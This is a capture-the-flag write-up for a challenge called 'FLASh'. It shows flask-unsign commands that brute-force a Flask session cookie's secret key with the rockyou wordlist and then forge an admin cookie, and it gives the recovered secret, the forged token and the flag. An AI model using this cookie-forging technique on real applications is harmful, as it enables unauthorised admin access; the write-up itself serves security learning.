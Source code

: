 # GHCTF-FLASh-challenge

## Challenge Description

**Name:** FLASh

**Points:** 455

**Description:** FLASh FLASh ...f denia Kifou maKech.

**Challenge link:** [FLASh challenge link](http://greenhat.microclub.info:5620/login)

**Goal:** Gain admin access by manipulating the JWT token.

## Tools and Techniques

**Tools:** flask-unsign

**Techniques:**

- Flask cookie decoding and encoding
- Brute-forcing secret key
- Cookie manipulation

## Solution

### Initial Approach

**Step 1:** Inspected the webpage and found a JWT token in the cookies.

**Step 2:** Decoded the JWT token using an online JWT decoder.

Decoded JWT:

```
{

'admin': False,

'username': 'guest'

}
```

**Step 3:** Tried to modify the payload directly and replace the token, but it was rejected by the server due to an invalid signature.

It wasn't a JWT token , it was a flask cookie 

### Detailed Solution

- **Step 1:** Identify the need to brute-force the secret key.
  
  Based on the challenge hint "FLASh", it suggested the use of the Flask framework, which uses a secret key to sign tokens.

- **Step 2:** Install flask-unsign.

  Open Cmd and run:

  ```pip install flask-unsign```

- **Step 3:** Decode the flask cookie using flask-unsign.
  
  Command :

  ```flask-unsign --decode --cookie "eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiZ3Vlc3QifQ.ZqOMzQ.SpPqBdMSQC6ojJADF2OrON3DVbc"```

   Decoded cookie :

  `{'admin': False, 'username': 'guest'}`
  
- **Step 4 :** Download the [rockyou.txt wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).
  
- **Step 5:** Use flask-unsign to brute-force the cookie using the rockyou.txt wordlist.

  **Initial Attempt to Brute-force the Secret Key:**
  
   Command :

  ```flask-unsign --unsign --wordlist "C:\Users\PC\Desktop\rockyou.txt" --cookie "eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiZ3Vlc3QifQ.ZqOMzQ.SpPqBdMSQC6ojJADF2OrON3DVbc"```

   Result: Encountered an error indicating the need to use the --no-literal-eval argument.

   **Retrying with the Correct Argument:**

   Command : 

   ```flask-unsign --unsign --wordlist "C:\Users\PC\Desktop\rockyou.txt" --cookie "eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiZ3Vlc3QifQ.ZqOMzQ.SpPqBdMSQC6ojJADF2OrON3DVbc" --no-literal-eval```

   This successfully brute-forced the secret key, avoiding the previous error. Secret key : `'helloall'`

- **Step 6:** Create a new token with the admin changed to "True"

   Command :

   ```flask-unsign --sign --cookie "{'admin': True, 'username': 'guest'}" --secret 'helloall'```

   New Token :

   ```eyJhZG1pbiI6dHJ1ZSwidXNlcm5hbWUiOiJndWVzdCJ9.ZqOYOw.6hfVRtWwsvQVfCg8kSkCDxQZkWU```

- **Step 7:** Replace the original token in the browser’s cookies with the new token.
  
- **Step 8:** Reload the webpage to verify admin access.

   Successfully logged in as an admin and obtained the flag.

## The Flag :

# microCTF{54y_H3ll0_0nLy_t0_Y0ur_Fr13nd5_H!h!h4}
  

  

